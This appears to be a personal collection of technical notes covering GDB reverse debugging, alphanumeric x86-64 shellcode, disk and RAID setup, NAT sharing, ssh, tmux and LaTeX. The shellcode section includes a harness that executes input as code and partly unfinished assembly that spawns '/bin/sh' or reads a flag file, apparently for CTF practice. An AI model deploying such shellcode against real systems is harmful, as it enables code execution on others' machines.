

Random Notes
杂七杂八给自己看的笔记
GDB 逆向调试
启动
可以直接控制台输入 gdb 并在 GDB 中指定程序（例为 crackme）。
$ gdb
+ (gdb)
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
+ (gdb) file crackme
Reading symbols from crackme...done.
或者也可以直接指定程序（假定 crackme 在当前目录下）。
$ gdb ./crackme
或者也可以把 GDB attach 到正在运行的程式上，这对于某些检查是否处于 debugger 环境中的程式比较有用。以下三种方式都可以实现 attach。
$ gdb -p pid
$ gdb progName pid
$ gdb progName
(gdb) attach pid
运行程序和断点
环境变量
可以使用 show env 查看环境变量讯息。
(gdb) show env
设置环境变量则可以用 set env ENV=value，比如下面添加了一个环境变量 FOO，值为 bar。
(gdb) set env FOO = bar
gdb 内部会默认设置两个环境变量 LINES 和 COLUMNS。众所周知，环境变量是放在栈底（大地址）的，增加环境变量会影响栈帧地址的构成。如果希望能减少这种影响，可以用 unset 删除环境变量。
(gdb) unset env LINES
(gdb) unset env COLUMNS
运行程序
指定程序后并不会直接运行，需要使用 run 或者缩写 r。
(gdb) r
需要传参的话可以在 run 之前 set args
(gdb) set args inputfile.txt
(gdb) r
或者直接 r args
(gdb) r inputfile.txt
运行命令也是可以的啦。
(gdb) r $(echo "hello!")
也可以使用 start 或 starti 来运行程序，本质上是在 main （如果是 C 或者 C++ 程序……有人用 gdb debug 其他语言吗？）处设置一临时断点后执行 run。所有传给 start 的参数都会 verbatim 地转递给 run。
starti 与 start 的区别是如果 main 函数存在 elaboration phase （比如 C++ 里全局变量的建构函数执行），starti 将会在 elaboration phase 的开头打临时断点。
断点
在程序运行前和运行中可以用 break 或 b 指定断点（breakpoint），可以使用函数名，行号（逆向的话通常不知道）和指令地址。
使用函数名断点：
(gdb) b main
使用行号断点：
(gdb) b 9
使用指令地址断点（根据汇编），注意因为是地址所以要用 b *address 格式。
譬如在汇编中注意到有 strcmp 函数调用：
(gdb) disas
Dump of assembler code for function main:
0x080486a3 <+0>: push ebp
...
0x080486d1 <+46>: add esp,0x8
0x080486d4 <+49>: push 0x8048817
0x080486d9 <+54>: lea eax,[ebp-0x10]
0x080486dc <+57>: push eax
+ 0x080486dd <+58>: call 0x8048420 <strcmp@plt>
0x080486e2 <+63>: add esp,0x8
...
则可以在 call strcmp 处断点。
(gdb) b *0x080486dd
Breakpoint 2 at 0x80486dd: file crackme.c, line 15.
或者也可以用相对 main 的偏移（offset）来断点。
(gdb) b *main+58
程序运行到断点时会停止，这时可以查看汇编、寄存器值等操作。
(gdb) r
Starting program: /path/to/crackme
Breakpoint 1, main (argc=1, argv=0xffffd6c4) at crackme.c:9
可以使用 info breakpoint 或者 i b 查看当前所有的断点。删除断点则是用 delete <breakpoint number> 或 d <breakpoint number>。
查看汇编、寄存器值、变量值
汇编
disassemble 或 disas 可以查看 当前 栈帧（frame）的汇编。比如刚才在 main 处打了断点，就能够查看 main 的汇编。
(gdb) disas
Dump of assembler code for function main:
0x08048486 <+0>: push ebp
0x08048487 <+1>: mov ebp,esp
0x08048489 <+3>: sub esp,0x4
...
汇编格式默认是 AT&T, 不想看 AT&T 的阴间汇编的话要提前设置 assembly flavor。
(gdb) set disassembly-flavor intel
带上 /m 参数可以把源码和汇编一起排列（如果有源码的话），没有也能显示一组汇编对应的 c 程序行号，打断点更方便一些。
(gdb) disas /m
Dump of assembler code for function main:
7 in crackme.c
0x08048486 <+0>: push ebp
0x08048487 <+1>: mov ebp,esp
0x08048489 <+3>: sub esp,0x4
...
寄存器
可以使用 info register 或缩写 i r 查看寄存器值。可能是最常用的操作了。
(gdb) i r
eax 0xf7fbcdd8 -134492712
ecx 0xfcf63fa0 -50970720
edx 0xffffd654 -10668
ebx 0x0 0
esp 0xffffd624 0xffffd624
ebp 0xffffd628 0xffffd628
esi 0xf7fbb000 -134500352
edi 0x0 0
eip 0x804848c 0x804848c <main+6>
eflags 0x286 [ PF SF IF ]
cs 0x23 35
ss 0x2b 43
ds 0x2b 43
es 0x2b 43
fs 0x0 0
gs 0x63 99
变量
如果你知道变量名，可以用 print var 或 p var 打印其内容，也可以打印寄存器内容。
比如打印 argv[0] （程序名）
(gdb) p argv[0]
$1 = 0xffffd7f4 "/path/to/crackme"
注意到 print 有一个自增 id，我们可以通过 print $id 来打印之前打印过的值。
(gdb) p $1
$2 = 0xffffd7f4 "/path/to/crackme"
x address 可以用来检视内存内容，比如 x $eax 会把 %eax 中存储的值解读为内存地址，并打印其内容。
p 和 x 可以用基本相同的一套格式化方法来指定要打印变量 / 内存地址被解读为何种类型。
/o：8 进制（octal）/x：16 进制 （hexadecimal）/u：无符号 10 进制（unsigned decimal）/t：binary/f：floating point/a：address —— 这不还是 16 进制吗 =、=/c：char/s：string
x 模式还可以用 /i 采用指令（instruction）格式化方法。在搞 Buffer Overflow 的时候查看写进栈内的 shellcode 异常好用。
(gdb) x/7i 0xfffd6b0
0xffffd6b0 add ecx, esp
0xffffd6b2 push ecx
0xffffd6b3 mov ecx, esp
0xffffd6b5 xor edx, edx
0xffffd6b7 push 0
->0xffffd6b9 sar bl, 1
0xffffd6bb test dword ptr [eax], 0
x 还能指定字符串的字符宽度（譬如 UTF-16le 或 UTF-8 字符宽度就可能为 2 或 3 个字节）。
b: byteh: halfword (16-bit value)w: word (32-bit value)l: giant word (64-bit value)
来看看打印效果：
(gdb) x/bs 0x8048817
0x8048817: "250381"
(gdb) x/ws 0x8048817
0x8048817: U"\x33303532\x50003138\x77737361\x2064726f\x3a204b4f\x616c0029\x3a313062\x6f747574\x6c616972\x766e4900\x64696c61\x73615020\x726f7773Ⅴ\x31b0100䀻܀\xfffbc000烿\xfffc8000铿\xfffcd000峿\xfffda600\xa8ff\xfffe5300죿\xfffed000\xffff3000\x134ff᐀"
(gdb) x/hs 0x8048817
0x8048817: u"㔲㌰ㄸ倀獡睳牯䭏㨠)慬ぢ㨱畴潴楲污䤀癮污摩倠獡睳牯Ⅴ"
(gdb) x/ls 0x8048817
0x8048817: "250381"
其他
如果想边看汇编边调试的话，可以用 layout asm 显示汇编和命令行。
(gdb) layout asm
效果如图：

想要退出 layout 模式只需 Ctrl + X, A （按住 Ctrl + X 后再按 A，类似 VSCode 的 Ctrl + K, * 系列操作）。
layout 除了显示汇编，还可以显示其他内容。具体参数如下：
src: Displays source and command windows.asm: Displays disassembly and command windows.split: Displays source, disassembly and command windows.regs: Displays register window. If existing layout
按步调试
continue 或缩写 c 可以让程序运行到下一个断点。
next 或 n 可以让程序运行到 当前栈帧 的下一条语句。在遇到函数调用时，next 不会跟踪进入函数。
step 或 s 可以让程序运行到下一条语句。在遇到函数调用的时候，step 会跟踪进入函数。
nexti 和 stepi 与不带 i 的指令类似，区别是他们会让程序运行到下一条汇编指令（i 指 instruction）。
Tips
觉得在 GDB 里看汇编太累的话可以 objdump 整个文件，在喜欢的编辑器里带着高亮慢慢看。 Sublime Text 3 推荐 NASM x86 Assembly 这个高亮。
$ objdump -M intel -d crackme > crackme.asm
使用 pwndbg 这个 GDB 插件可以把工作量（指记住 GDB 命令）减少很多。在每次运行到断点时 pwndbg 都会把可能需要的信息漂亮地打出来

Alphanumeric shellcode
Alphanumeric shellcode 限定所使用的汇编 opcode 只能在 0x20 ~ 0x7f 范围内——这正是“人类可读”的 ascii 字符的范围。所以如果你用如下代码编译出一份字节文件，你将得到一份看起来像乱码文本，但实际上又可执行的怪东西！
gcc -m64 -c -o shellcode.o shellcode.S
objcopy -S -O binary -j .text shellcode.o shellcode.ascii
下面我们研究一下，如何书写一份 x86-64 风格的 alphanumeric shellcode。
限制与问题
WIP
演示 shellcode 执行
直接把传入的 shellcode 读到 buf 中并且将 buf 解释为函数指针执行 buf。
#include <stdio.h>
#include <string.h>
#include <err.h>
#include <stdlib.h>
char buf[2048];
int main()
{
if (!fgets(buf, sizeof(buf), stdin))
err(1, "Too long input");
// a few info for debugging
printf("> length: %d\n", (int)strlen(buf));
for (int i = 0; i < strlen(buf); i += 1) {
if (i % 16 == 0)
printf("> %04X: ", i);
printf("%02X ", (unsigned char)buf[i]);
if (i % 16 == 15)
printf("\n");
}
printf("\n");
(*(void (*)()) buf)();
}
shellcode
.global _start
.text
_start:
; Set %rcx as stack pointer
; and align %rsp
push $0x5a
push %rsp
pop %rcx
pop %rax
; Get magic offset and store in %rdi
xor $0x55, %al
push %rax ; 0x14 on the stack now.
pop %rax ; add back to %esp
imul $0x41, (%rcx), %edi ; %rdi = 0x3cf, a "magic offset" for us
; This is decimal value 975.
; If this is too low/high, suggest a
; modification to xor of %al for
; changing the imul results
; Write the syscall
movslq (%rcx,%rdi,1), %rsi
xor %esi, (%rcx,%rdi,1) ; 4 bytes have been nulled
push $0x3030474a
pop %rax
xor $0x30304245, %eax
push %rax
pop %rax ; Garbage reg
movslq (%rcx), %rsi
xor %esi, (%rcx,%rdi,1)
; Sycall written, set values now.
; allocate 8 bytes for '/bin/sh\0'
movslq 0x30(%rcx), %rsi
xor %esi, 0x30(%rcx)
movslq 0x34(%rcx), %rsi
xor %esi, 0x34(%rcx)
; Zero rdx, rsi, and rdi
movslq 0x30(%rcx), %rdi
movslq 0x30(%rcx), %rsi
push %rdi
pop %rdx
; Store '/bin/sh\0' in %rdi
push $0x5a58555a
pop %rax
xor $0x34313775, %eax
xor %eax, 0x30(%rcx) ; '/bin' just went onto the stack
push $0x6a51475a
pop %rax
xor $0x6a393475, %eax
xor %eax, 0x34(%rcx) ; '/sh\0' just went onto the stack
xor 0x30(%rcx), %rdi ; %rdi now contains '/bin/sh\0'
pop %rax
push %rdi
push $0x58
movslq (%rcx), %rdi
xor (%rcx), %rdi ; %rdi zeroed
pop %rax
push %rsp
xor (%rcx), %rdi
xor $0x63, %al
#include <sys/syscall.h>
.globl main
.type main, @function
main:
/* PART I : OPEN */
/* start of buf 0x6020c0 */
/* about 100 bytes long! */
/* Set rcx as stack pointer */
push $0x58
push %rsp
pop %rcx
pop %rax
/* rdx = 0x6020c0, start of buf*/
movslq 0x50(%rcx), %rax
push $0x30585040
pop %rax
xor $0x30387140, %rax
push %rax
pop %rdx
/* Write the syscall to designated place */
push $0x30302847
pop %rax
xor $0x30307522, %eax /* 0x602100 */
push %rax
pop %rax /* Garbage reg */
movslq (%rcx), %rsi
xor %esi, 0x5b(%rdx)
/* Sycall written, set values now.
allocate 16 bytes for '/proc/flag\0' */
movslq 0x50(%rcx), %rsi
xor %esi, 0x50(%rcx)
movslq 0x54(%rcx), %rsi
xor %esi, 0x54(%rcx)
movslq 0x58(%rcx), %rsi
xor %esi, 0x58(%rcx)
movslq 0x5c(%rcx), %rsi
xor %esi, 0x5c(%rcx)
/* Zero rdx, rsi, and rdi */
movslq 0x50(%rcx), %rdi
movslq 0x50(%rcx), %rsi
push %rdi
pop %rdx
/* Store '/bin/sh\0' in %rdi */
push $0x31315039
pop %rax
xor $0x31313758, %eax
xor %eax, 0x58(%rcx) /* 'ag\0\0' just went onto the stack */
push $0x58575a3b
pop %rax
xor $0x34317558, %eax
xor %eax, 0x54(%rcx) /* 'c/fl' just went onto the stack */
push $0x5b43475a
pop %rax
xor $0x34313775, %eax
xor %eax, 0x50(%rcx) /* /pro just went onto the stack*/
xor 0x50(%rcx), %rdi
xor 0x58(%rcx), %rsi
pop %rax
pop %rax
push %rsi
push %rdi
push $0x58
movslq (%rcx), %rsi
xor (%rcx), %rsi /* %rsi zeroed */
movslq (%rcx), %rdi
xor (%rcx), %rdi /* %rdi zeroed */
pop %rax
push %rsp
xor $0x5a, %al
xor (%rcx), %rdi /* From here, rdi = pointer to /proc/flag */
/* rsi = 0 = read mode */
/* This will be modified to syscall */
push $0x58
/***********************************/
/********** PART2 : READ ***********/
/***********************************/
/* eax now has fd, move it to rdi */
push %rax
pop %rdi
/* rsp in rcx */
push $58
push %rsp
pop %rcx
pop %rax
movslq (%rcx), %rsi
xor %esi, (%rcx)
movslq (%rcx), %rsi
xor %esi, (%rcx)
/* rdx = 0x602060 */
push $0x61616161
pop %rax
xor $0x61616161, %eax /* empty rax */
push $0x30585058
pop %rax
xor $0x30387138, %rax
push %rax
pop %rdx
/* emtpy rax again */
push $0x61616161
pop %rax
xor $0x61616161, %eax /* empty rax */
/* Write the syscall to designated place */
push $0x30302847
pop %rax
xor $0x30307522, %eax /* 0x005d65 */
push %rax
/* Garbage reg */
movslq (%rcx), %rsi
xor %esi, 0x58(%rdx)
/* Put 0x100 into %rdx */
push $0x61616161
pop %rax
xor $0x61616061, %eax
push %rax
pop %rdx
push $0x58
pop %rax
push %rcx
pop %rsi
xor $0x58, %al
/* To be syscall*/
push $0x58
/***********************************/
/********** PART3 : WRITE ***********/
/***********************************/
/* rsp in rcx */
push $0x58
push %rsp
pop %rcx
pop %rax /* Garbage */
/* Set rdx = 0x602200 */
push $0x61616161
pop %rax
xor $0x61616161, %eax /* empty rax */
push $0x30586858
pop %rax
xor $0x30384a58, %rax /* TODO: the value is not correct now */
push %rax
pop %rdx
/* emtpy rax again */
push $0x61616161
pop %rax
xor $0x61616161, %eax /* empty rax */
/* Write the syscall to designated place */
push $0x30302847
pop %rax
xor $0x30302847, %eax /* 0x005d65 */
push %rax
pop %rax /* Garbage reg */
movslq (%rcx), %rdi
xor %edi, 0x58(%rdx)
/* Put 0x100 into %rdx */
push $0x61616161
pop %rax
xor $0x61616561, %eax
push %rax
pop %rdx
push $0x58
pop %rax
xor $0x59, %al /* rax set to 1 */
push %rax
pop %rdi
push %rax
pop %rdi
push %rax
pop %rdi
push %rax
pop %rdi
push %rax
pop %rdi
push %rax
pop %rdi
/* To be syscall*/
push $0x58
Reference
VSCode tips
Platform specific settings
I asked the following questions in my personal Telegram group one day...
And my friend FluorineDog enlightened me that the ${env:variable} syntax could be a workaround.
E.g. create an environment varaible in the name of EXE_HOME and use the platform-specific executable in the form of ${env:EXE_HOME}/<executable>.
But that's not necessary for LaTeX workshop...
But I actually only want to solve the compilation problem of my $\LaTeX$ workshop: I sometimes compile locally on my personal laptop, which has ; and sometimes on a server w/ Debian 11. The solution for my problem is actually simple: set up TEXMFHOME on each machine.
To be specific, add the following line in your .bashrc or .zshrc or .whatever-rc:
export TEXMFHOME="/path/to/your/latexmk"
Disk Management
Normal Disk Operations
Add a disk
List the disk currently have in hand.
Or just lsblk will also do.
$ lsblk -o NAME,SIZE,FSTYPE,TYPE,MOUNTPOINT
NAME SIZE FSTYPE TYPE MOUNTPOINT
sda 256G disk
sdb 256G disk /
Format new disks.
$ mkfs -t ext4 /dev/sba
$ mkfs.ext4 /dev/sba
Mount the formatted disk to certain directory.
$ mount /dev/sba /mnt/sba
Add to /etc/fstab so that you don't need to mount it every time the device boots (how does it work?).
$ sudo bash -c 'echo "/dev/sba /mnt/sba ext4 defaults 0 0" >> /etc/fstab
Or use UUID.
$ UUID=$(sudo blkid | grep /dev/sba | cut -f2 -d ' ' | sed -e 's/\"//g')
$ sudo bash -c 'echo "${UUID} /mnt/sba ext4 defaults 0 0" >> /etc/fstab'
Or add a label to the disk and use the label to mount.
$ sudo e2label /dev/sba DISK1
sudo bash -c 'echo "LABEL=DISK1 /mnt/sba ext4 defaults 0 0" >> /etc/fstab'
Optimize disk performance
Adjust the readahead value to increase IO performance
$ sudo blockdev /dev/sba
256
The readahead value is <desired_readahead_bytes> / 512 bytes.
For example, for an 8-MB readahead, 8 MB is 8388608 bytes (8 * 1024 * 1024).
8388608 bytes / 512 bytes = 16384
Set blockdev to 16384 to havea 8-MB readahead.
sudo blockdev --setra 16384 /dev/sba
RAID Operations
The best option to make a software RAID array is mdadm. You can get it from apt or other package manager.
$ sudo apt install mdadm
Normal operations
Check RAID configuration
$ sudo mdadm --detail --scan
Check RAID operation progress / whether there is already a RAID array available
$ cat /proc/mdstat
Personalities : [linear] [multipath] [raid0] [raid1] [raid6] [raid5] [raid4] [raid10]
md0 : active raid5 nvme5n1[0] nvme7n1[2] nvme6n1[1] nvme8n1[4] nvme9n1[5]
60011155456 blocks super 1.2 level 5, 512k chunk, algorithm 2 [5/5] [UUUUU]
bitmap: 0/112 pages [0KB], 65536KB chunk
unused devices: <none>
Create and resize a RAID array
Create a RAID5 disk array called /dev/md0 with /dev/sda /dev/sdb and /dev/sdc (might take quite some time)
Note that actually a RAID5 disk array can only be named in the form of /dev/md[0-9]+
$ sudo mdadm --create --verbose /dev/md0 \
--level=5 --raid-devices=3 /dev/sda /dev/sdb /dev/sdc
Grow a RAID5 disk array /dev/md0 with 1 new disk called /dev/sdd (might take quite some time)
$ sudo mdadm --add /dev/md0 /dev/sdd
$ mdadm --grow --raid-devices=5 /dev/md0
Reference
Ubuntu 18.04 Internet Connection Sharing
Our school has some weird regulations that each lab can only get 1 internet LAN cable assigned. But our lab has multiple servers and all of them need internet connection. So I (as the server manager) decided to set up internet connection sharing.
Requirements
A gateway server with 2 Network Interface Card (NIC)s, eth0), connects to the internet, eth1 connects and manages the internal network.
The netplan configuration looks as follows:
eth0:
addresses: [<some ip>/24]
gateway4: <some gateway>
nameservers:
addresses: [8.8.8.8,8.8.4.4] # important!
dhcp4: no
dhcp6: no
eth1:
address: [10.0.0.101/24]
dhcp4: no
dhcp6: no
eth1 can have whatever address falls in private IP subnet.
Gateway setup
Enable IP forwarding
Execute the following command
sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
Also edit /etc/sysctl.conf by uncommenting this line
#net.ipv4.ip_forward=1
Set up NAT rules
sudo iptables -A FORWARD -o eth0 -i eth1 -s 10.0.0.0/24 -m conntrack --ctstate NEW -j ACCEPT
sudo iptables -A FORWARD -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -t nat -F POSTROUTING
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
The first rule allows forwarded packets (initial ones). The second rule allows forwarding of established connection packets (and those related to ones that started). The third rule does the NAT.
Automatic setup
Save the iptables:
sudo iptables-save | sudo tee /etc/iptables.sav
Edit /etc/rc.local and add the following lines before the exit 0 line
iptables-restore < /etc/iptables.sav
Client setup
Open /etc/netplan/whatevername.yaml and edit it
eth0:
address: [10.0.0.102/24]
gateway: 10.0.0.101 # important!
nameservers:
addresses: [8.8.8.8,8.8.4.4] # important!
It is very important that:
gatewayaddress is the intranet IP of the gateway computernameserversshould use the same ones as the gateway computer
Once editted, run the fllowing command
sudo netplan apply
And then you can check the internet connetion by pinging some famous websites
$ ping www.google.com
PING www.google.com (172.217.27.68) 56(84) bytes of data.
64 bytes from nrt12s15-in-f68.1e100.net (172.217.27.68): icmp_seq=1 ttl=112 time=36.3 ms
64 bytes from nrt12s15-in-f68.1e100.net (172.217.27.68): icmp_seq=2 ttl=112 time=89.8 ms
64 bytes from nrt12s15-in-f68.1e100.net (172.217.27.68): icmp_seq=3 ttl=112 time=58.2 ms
...
ssh config
$HOME/.ssh/config-- personal configuration/etc/ssh/ssh_config-- global configuration
Format:
Host <alias>
SSH_OPTION value
Common options
Host * # match all hosts
User matchy
IdentityFile $HOME/.ssh/id_ed25519
Host cloud
HostName dev.example.com
# automatically use "matchy" as the User
# automatically use id_ed25519 as the IdentityFile
Host dev
HostName 147.47.233.45
User mischa # overwrites User="matchy"
Port 2333
IdentityFile $HOME/.ssh/id_rsa # overwrites
Jump/Bastion server make-easy
ProxyJump is available since OpenSSH version 7.5.
Host bastion
HostName transfer.example.com
User matchy
IdentityFile ~/.ssh/id_ed25519
Host node
HostName 192.168.50.233 # the intranet IP to the bastion
+ ForwardAgent yes
+ ProxyJump bastion
If your ssh is olderthan OpenSSH 7.5 but newer than OpenSSH 5.4 (assuming bastion config exists in the ssh config):
Host node
# ...
+ ProxyCommand ssh bastion -W [%h]:%p
If your ssh is even older than OpenSSH 5.4...
Host node
# ...
+ ProxyCommand ssh bastion nc -q0 %h %p 2> /dev/null
Change starting directory
RemoteCommand is available since OpenSSH version 7.5.
Host node
# ...
+ RequestTTY force
+ RemoteCommand cd /path/to/your/directory && bash -l
The command bash -l means starting a bash session as the login shell. Alternatively, if you prefer zsh or fish (or any other shells), simply use zsh -l or fish -l instead.
To Dos
-
Avoid
broken pipe
VPN via Cisco Anyconnect
I always work on a remote server, and I need to connect to the university network to access some resources and do homework submission. Hence I need to set up a VPN nn that server (where I have sudo rights)
Setting up Unibas VPN
Download Linux VPN Client with:
$ wget --user <unibas-long-username> --password <unibas-password> \
https://data.its.unibas.ch/extern/vpn/Linux/anyconnect-linux64-4.10.06079-core-vpn-webdeploy-k9.sh
As instructed, run the script with sudo:
$ sudo chmod +x anyconnect-linux64-4.10.06079-core-vpn-webdeploy-k9.sh
$ sudo ./anyconnect-linux64-4.10.06079-core-vpn-webdeploy-k9.sh
Cisco VPN client will be installed to /opt/cisco/anyconnect/.
Initially tried /opt/cisco/anyconnect/bin/vpn connect vpn.mobile.unibas.ch, but the required authentication method is not supported for CLI.
The tried Remote Desktop + the GUI client. But was prompted:
VPN establishment capability for a remote user is disabled.
A VPN connection will not be established.
It's because inside the profile of cisco anyconnect the VPN establishment is configured to LocalUserOnly (for Linux if you install to the default path, the configuration xml file will locate in /opt/cisco/anycconnect/profile/).
<WindowsVPNEstablishment>LocalUserOnly</WindowsVPNEstablishment>
<LinuxVPNEstablishment>LocalUserOnly</LinuxVPNEstablishment>
Change it to AllowRemoteUsers will solve the problem. But Cisco will always re-write the configuration file to LocalUserOnly after you close the GUI client. So it is necessary to watch the file and re-write it back to AllowRemoteUsers after it is changed.
Hack Cisco AnyConnect VPN's configuration
TODO
Ref
How to enable (and hack) Cisco AnyConnect VPN through Remote Desktop
Effective Shell
Navigating along the command line
可能应该录制一个 gif 来展示功能。
| 功能 | 快捷键 |
|---|---|
| 定位到行开头 | Ctrl + A 或者 Home |
| 定位到行末尾 | Ctrl + D 或者 End |
| 向前（行首）移动 一个词 | Alt + B 或者 Ctrl + ⬅ |
| 向后（行末）移动 一个词 | Alt + F 或者 Ctrl + ➡ |
删除整行（zsh） | Ctrl + U |
| 删除光标处到行首的 所有字符（非 zsh） | Ctrl + U |
| 删除光标处到行末的 所有字符 | Ctrl + K |
| 删除一个词 | Ctrl + W 或者 Alt + D |
| 上一条命令 | Ctrl + P 或者 ⬆ |
| 下一条命令 | Ctrl + N 或者 ⬇ |
| 打开编辑器编辑当前 指令 | Ctrl + X, E |
Ctrl + X,E 打开的编辑器是通过环境变量 $EDITOR 指定的。
这里有一张非常棒的图可作总结：

Random bash tips
mv/cp with wildcard (blob)
The following command will not work
mv "${dir}/*.txt" "${dir}/another_place"
* will not be expanded inside quotation marks. To make it work, * should be
put outside the quote.
mv "${dir}/"*".txt" "${dir}/another_place"
Should have more explanation on wildcards and globs
custom cd
function cd {
builtin cd "$@"
if [[ $(ls | wc -l ) -le 50 ]]; then
ls -F --color=auto
else
echo "There are a total of $(ls -F | wc -l) entries in $(pwd)"
fi
}
Monitor everything...
pv: pipe viewer
Monitor tar extraction progress
pv file.tar.gz | tar -xz
Example:
$ pv big-files-1.tar.gz | tar -I pigz -x -C source/fasta/metaclust_db_1
9.30GiB 0:01:43 [93.1MiB/s] [=> ] 17% ETA 0:08:12
Monitor tar compression progress
tar cf - . -P -T file_list.1 | pv -s $( du -sb <file_list.1 | awk '{print $1}') | pigz -k > big-files.tar.g
tmux usage 101
Motivation: why you should use tmux?
tmux is very useful under the following scenarios:
- When you
sshto a server, you would like to open multiple shells but don't want tosshfor multiple times. - When you want to leave your work on the server running without needing to keep your shell alive, and moreover, you want to resume working on it afterwards
And it's just cool when you can split the shells windows!
Basic Usage
All the commands for tmux are only available after you type the command prefix. By default it is Ctrl-b. After pressing this combination, it will activate the console mode (or so I believe).
Pane commands
| Command | Description |
|---|---|
" | Split current pane vertically, create new pane underneath |
% | Split current pane horizontally, create new pane on the right |
x | Close current pane (with confirmation, contrasst to simply pressing Ctrl-d) |
z | Maximize current pane (after v1.8) |
! | Move current pane to a new window and open it there |
; | Switch to the latest used pane |
q | Show pane number, and before the numbers disappear, you can switch to that pane by typing the number |
{ | Swap forward current pane |
} | Swap backward current pane |
Ctrl+o | Swap all the panes in current window clockwise |
arrow | Move to the pane pointed by the arrow key (intuitive!) |
o | Switch to the next (pane number order) pane |
t | Show a clock :) |
Configure
Change command prefix
The default command prefix Ctrl-b is not a very good key binding: they are too far away! My choice is to change it to Ctrl-a, but it could be set to any keybinding you like.
We should use Ctrl-b and then type : to enter the command line mod and enter the following lines
set -g prefix C-a
unbind C-b
bind C-a send-prefix
My current favorite prefix is the grave accent (`), but this kinda hinders editing markdown in tmux.
If you would like to set it permanently, it is wise to create a ~/.tmux.conf, it functions just like your .bashrc and other dotfiles. If you
Since tmux 1.6, it is possible to set a second prefix by the following command:
set -g prefix2 <your-key-binding>
To apply changes, you need to source the configuration file:
tmux source-file ~/.tmux.conf
Shell-rc
General
Know if I'm in WSL or native Linux
Simply check the content of /proc/version. WSLs will contain "Microsoft / microsoft" somewhere in the kernel build version (which is very interesting to me lol).
On WSL (running Ubuntu 18.04):
$ cat /proc/version
Linux version 4.19.128-microsoft-standard (oe-user@oe-host) (gcc version 8.2.0 (GCC)) #1 SMP Tue Jun 23 12:58:10 UTC 2020
Also, on WSL with Kali Linux:
$ cat /proc/version
Linux version 4.4.0-22000-Microsoft (Microsoft@Microsoft.com) (gcc version 5.4.0 (GCC) ) #653-Microsoft Wed Apr 27 16:06:00 PST 2022
On native Linux (here Debian 11 bullseye)
$ cat /proc/version
Linux version 5.10.0-13-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.106-1 (2022-03-17)
.zshrc specific contents
Home and End wrongly captured by zsh
Run
catthen press keys to see the codes your shortcut send and...
Add the key bindings to ~/.zshrc using bindkey. For example:
bindkey "^[[1~" beginning-of-line
General LaTeX tricks
一些我还没有熟练掌握的 \(\LaTeX\) 技巧
在 math environment 里 format 字体
Bold
% preamble
% ...
\usepackage{bm}
% ...
% end of preamble
\begin{document}
% ...
\[
\bm{A}
\]
%...
\end{document}
pdfpages: insert pdf pages in a \(\LaTeX\) file
对于做 take-home exam 有奇效。
% preamble
% ...
\usepackage{pdfpages}
% ...
% end of preamble
\begin{document}
% ...
% include all pages
\includepdf[pages=-]{pdfname1.pdf}
% include certain pages (here 1, 3, 5)
\includepdf[page={1,3,5}]{pdfname2.pdf}
%...
\end{document}
datetime2: foramt datetime :)
Set up new date style
The 4 input parameters for \DTMdisplaydate are 1. year, 2. month, 3. date, 4. dow.
The package asks the users to refer to the input parameters using a double-hash + param number. Thus, while designing the format string, we should refer to year by ##1, month by ##2 and date by ##3.
\DTMnewdatestyle{kordate}% label, just a token
{% definitions
\renewcommand*{\DTMdisplaydate}[4]{
% format string
\number##1년 \number##2월 \number##3일
}%
\renewcommand*{\DTMDisplaydate}{\DTMdisplaydate} %Capitalize
}
Also note that, any fragile command used by the format string (inside \renewcommand) should be wrapped with \protect. An example in the (not so easy to read documentation of datetime2) below:
% omitted preamble
\DTMnewdatestyle{usvardate}{%
\renewcommand{\DTMdisplaydate}[4]{%
\DTMmonthname{##2} \ordinalnum{##2}, \number##1 }%
\renewcommand{\DTMDisplaydate}{\DTMdisplaydate}%
}%
\DTMsetdatestyle{usvardate}
\begin{document}
\section{\today: an example}
\today.
\end{document}
This document can’t compile properly and causes the error:
! Argument of \@sect has an extra }.
<inserted text>
\par
This is because the style definition has made \today fragile because it uses an unprotected
fragile command. This can be fixed by protecting \ordinalnum in the style definition.
LaTeX Workshop
LaTeX workshop formatter
Utilize latexindent on Debian/Ubuntu.
It is a Perl script depending on YAML::Tiny and File::HomeDir. Be sure to install the deps through cpan:
sudo cpan YAML::Tiny File::HomeDir
在 Windows 10 上装 X
基本配置
Windows 设置：安装 Xserver
其实安装个 Xserver 挺简单的。
